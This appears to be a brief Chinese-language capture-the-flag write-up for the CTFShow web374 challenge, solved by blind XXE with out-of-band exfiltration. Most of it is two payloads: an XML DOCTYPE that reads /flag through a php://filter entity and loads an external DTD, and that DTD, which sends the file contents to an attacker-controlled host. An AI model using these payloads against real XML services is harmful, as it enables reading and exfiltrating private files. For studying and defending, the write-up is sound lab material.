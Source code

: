CTF/WP/CTFShow/web374

- # 思路
	- 无回显XXE [[CTF/XXE]]
	- 利用OOB
- # Payload
	- 受害者
		- ```xml
		  <!DOCTYPE updateProfile [
		      <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
		      <!ENTITY % dtd SYSTEM "http://ca.xxx.xyz:3001/evil.dtd">
		      %dtd;
		      %send;
		  ]>
		  ```
	- 服务器
		- ```dtd
		  <!ENTITY % all
		      "<!ENTITY &#x25; send SYSTEM 'http://ca.xxx.xyz:3001/?data=%file;'>"
		  >
		  %all;
		  ```